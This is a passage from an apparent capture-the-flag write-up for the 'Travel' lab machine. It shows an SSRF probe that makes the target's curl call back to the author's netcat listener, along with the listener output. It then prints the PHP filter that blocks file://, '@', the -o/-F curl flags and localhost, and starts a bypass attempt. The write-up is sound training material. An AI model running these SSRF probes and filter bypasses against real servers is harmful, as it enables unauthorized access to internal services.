 The funtion is getting our url that we specify in `?custom_rss=` and making a `curl` request to this url.

# The SSRF


I will test this parameter to see if we can get a connection back on my nc listener. We run the following command:
```bash
curl "http://blog.travel.htb/awesome-rss/?custom_feed_url=10.10.14.14"
```
And we get a connection back on our listener.
```bash
sudo nc -nlvp 80                                    1 ⨯
listening on [any] 80 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.189] 38274
GET / HTTP/1.1
Host: 10.10.14.14
User-Agent: curl/7.64.0
Accept: */*
```

We now head back to our files and enumerate them.

## ssrf protections

The one thing that sticks out immidieately is a funtion withing the source that attepts to protect against ssrf attacks. You can read more about theese at: 
[https://en.wikipedia.org/wiki/Server-side_request_forgery](https://en.wikipedia.org/wiki/Server-side_request_forgery)

This source seems to not allow certain things in our url. It doesnt allow the use of `file://` as the protocol. it doesnt allow the use of the term `localhost` or equivelant address `127.0.0.1` it also does not allow the flags `-F` and `-o`.
```php
if(strpos($tmpUrl, "file://") !== false or strpos($tmpUrl, "@") !== false)
	{		
		die("<h2>Hacking attempt prevented (LFI). Event has been logged.</h2>");
	}
	if(strpos($tmpUrl, "-o") !== false or strpos($tmpUrl, "-F") !== false)
	{		
		die("<h2>Hacking attempt prevented (Command Injection). Event has been logged.</h2>");
	}
	$tmp = parse_url($url, PHP_URL_HOST);
	// preventing all localhost access
	if($tmp == "localhost" or $tmp == "127.0.0.1")
	{		
		die("<h2>Hacking attempt prevented (Internal SSRF). Event has been logged.</h2>");	
```	
We go ahead and test this on the website. We use this url:
```bash
http://blog.travel.htb/awesome-rss/?custom_feed_url=localhost:80
```
